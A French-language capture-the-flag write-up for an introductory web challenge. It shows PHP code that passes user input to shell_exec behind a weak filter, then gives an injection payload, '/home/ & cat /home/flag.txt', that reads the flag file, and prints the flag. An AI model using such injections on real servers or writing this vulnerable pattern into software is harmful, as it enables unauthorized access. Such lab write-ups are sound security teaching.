




> **title:** Tree Viewer
>
> **category:** Web
>
> **difficulty:** Introduction
>
> **point:** 50
>
> **author:** Eteck#3426
>
> **description:**
>
> Here, you can check the content of any directories present on the server.
> 
> Find a way to abuse this functionality, and read the content of /home/flag.txt
> 

## Solution

Le challenge permet de lister un dossier du serveur :



On a également accès au code source PHP :



On voit que pour lister le dossier, c'est la fonction `shell_exec` qui est utilisée directement avec notre input :

```php
<?= shell_exec('ls '.$parsed); ?>
```

Et le seul filtre sur notre input est le `preg_match_all` qui empêche l'utilisation de `;` et `|` :

```php
$parsed = isset($_POST['input']) ? $_POST['input'] : "/home/";

preg_match_all('/[;|]/m', $parsed, $illegals, PREG_SET_ORDER, 0);
```

<br>

### Command injection

Il s'agit donc là d'une injection de commande classique, on sait que le flag est dans `/home/flag.txt`, on va donc le `cat`.

Pour récupérer le résultat de ce `cat`, on va le concaténer au résultat du `ls` avec un `&` :

`ls` **`/home/ & cat /home/flag.txt`**



**`FLAG : PWNME{US3R_1nPUT2_1n_ShELL_Y3S_6x8c}`**


